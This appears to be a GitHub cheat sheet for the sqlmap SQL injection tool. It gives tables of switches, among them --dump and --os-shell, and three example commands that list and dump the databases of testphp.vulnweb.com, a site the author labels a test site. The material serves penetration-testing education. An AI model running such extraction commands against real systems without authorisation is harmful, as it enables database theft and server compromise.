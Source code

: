 # sqlmap


- [Basic Commands](#Basic)
- [Key Commands](#Key)

<h2 id="Basic">Basic Commands</h2>

 - Targeting:
   
|Switches | Details |
|---|---|
| -u    | Target URL to scan |
| -g    | Scan via Google search |


- Detection and Techniques:
  
|Switches | Details |
|---|---|
|--level=LEVEL | Level of tests to perform (1-5, default 1) |
| --risk=RISK | Risk of tests to perform (1-3, default 1) |
| --technique=TECH | SQL injection techniques to use (default "BEUSTQ") |

- Request Settings:
  
|Switches | Details |
|---|---|
| -p    | Specify parameter(s) to test |
| -r    | Load HTTP request from a file |
| --dbs | Extract database names |
| --data=DATA | POST data to send |
| --random-agent | Use a random HTTP User-Agent header |
| --proxy=PROXY | Use a proxy server |

<h2 id="Key">Key Commands</h2>

|Switches | Details |
|---|---|
| --dbs | List databases |
| --columns | List columns |
| --tables | List tables |
| --dump | Dump table data |
| --os-shell | Gain OS shell access |
| -D    | Select a database |


Example:

- Note : It is a test site.

1.List of Databases:
```bash
sqlmap -u http://testphp.vulnweb.com/product.php?pic=1 --dbs
```

<img width="1500" height="500" src="sqlmap/1.png" alt="Awesome">
 
2. List tables in the acuart database:
```bash
   sqlmap -u http://testphp.vulnweb.com/product.php?pic=1 -D acuart --tables  
```
<img width="1500" height="500" src="sqlmap/2.png" alt="Awesome">

3. Dump all data from the acuart database:
```bash
   sqlmap -u http://testphp.vulnweb.com/product.php?pic=1 -D acuart --dump-all  
```
<img width="1500" height="500" src="sqlmap/3.png" alt="Awesome">
<img width="1500" height="500" src="sqlmap/4.png" alt="Awesome">


